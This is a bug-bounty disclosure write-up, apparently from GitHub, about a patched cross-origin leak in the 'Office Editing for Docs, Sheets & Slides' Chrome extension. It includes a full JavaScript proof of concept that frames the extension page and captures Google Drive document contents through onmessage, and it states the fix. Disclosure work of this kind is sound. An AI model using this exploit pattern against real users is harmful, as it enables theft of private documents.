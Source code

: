 ```yaml
---
title: Office Editing for Docs, Sheets & Slides leak (Awarded $3133.70)
---
```


**URL:** <https://chromewebstore.google.com/detail/office-editing-for-docs-s/gbkeegbaiigmenfmjfclcdgdpimamgkj>

**PoC video:** <https://youtu.be/r0ajiPGLh0M>

### Details

- **Replace `msofficeDocId` with the doc ID of a pptx/docx you uploaded to google drive**
- It does not need to be shared with anyone.
- 3rd party cookies are required to be enabled however with browser heuristics this can be automatic for example it gets allowed if you open and interact with a popup on Chrome.

```
let msofficeDocId = '1DuGHZhNFjJFCtOXVkA91t5o92Y3BRJ1u';

setInterval(() => {
if (window.f) document.body.removeChild(f);
f=document.createElement('iframe');
f.width=500;
f.height=500;
f.src='chrome-extension://gbkeegbaiigmenfmjfclcdgdpimamgkj/views/app.html?state=%7B"ids":%5B"' + msofficeDocId + '"%5D,"action":"open","resourceKeys":%7B%7D%7D';

document.body.appendChild(f);

 let loop = setInterval(() => {
 // Wait for iframes to load
 if (f.contentWindow.length !== 2) return;
 clearInterval(loop);

 setTimeout(() => {

 f.contentWindow[0].location = 'about:blank';
 let loop2 = setInterval(() => {
  try {
  // Monitor for leaks via onmessage
  f.contentWindow[0].onmessage = (e) => {
     console.log('Data leaked :) '+ JSON.stringify(e.data));
  }
  clearInterval(loop2);
  } catch {}
 }, 0);
 // Wait a bit for the sandbox to request document content
 }, 600);

}, 0)

// Retry ever 2 seconds
}, 2000);
```

This issue was fixed by adding `frame-ancestors 'self'` to the `extension_pages` content security policy. 

### Attack scenario

Attacker websites can leak data from a user's google drive if they know the doc id.
